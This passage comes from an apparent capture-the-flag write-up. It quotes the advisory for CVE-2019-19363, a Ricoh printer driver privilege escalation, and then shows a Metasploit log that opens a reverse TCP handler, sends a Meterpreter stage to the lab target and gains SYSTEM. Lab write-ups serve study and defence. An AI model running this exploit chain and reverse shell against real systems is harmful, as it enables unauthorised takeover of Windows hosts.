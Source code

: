 Above this, we know that a printer is added: `RICOH v4.23` which is vulnerable.

> Printer manufacturer Ricoh has requested Pentagrid to coordinate the disclosure of an elevation of privilege vulnerability that mitigates a flaw affecting a range of printers' Windows printer drivers. The vulnerability arises due to improperly set file permissions for file system entries installed when adding a printer to a Windows system, allowing any local user to overwrite program library files (DLLs) with their own code.
>
> Windows loads the improperly protected library file PrintIsolationHost.exe, which is a process running with Windows SYSTEM privileges. When an attacker overwrites the library file used in an administrative context, the library code is also executed with administrative privileges. Consequently, an attacker is able to elevate privileges to SYSTEM. Since by default, the installation of printers is not permitted on domain-managed Windows computers, a generic privilege escalation is possible as long as the vulnerable printer driver is effective and installed.
>
> References:
>
> - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19363
> - https://www.pentagrid.ch/en/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/

![image-20240312034045628](./Driver.assets/image-20240312034045628.png)

```console
msf6 exploit(windows/local/ricoh_driver_privesc) > run

[*] Started reverse TCP handler on 10.10.16.5:6666
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Adding printer OeNrLgWJy...
[*] Sending stage (200774 bytes) to 10.129.95.238
[+] Deleted C:\Users\tony\AppData\Local\Temp\IRkEbeh.bat
[+] Deleted C:\Users\tony\AppData\Local\Temp\headerfooter.dll
[*] Meterpreter session 2 opened (10.10.16.5:6666 -> 10.129.95.238:49434) at 2024-02-24 21:32:13 +0800
[*] Deleting printer OeNrLgWJy

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
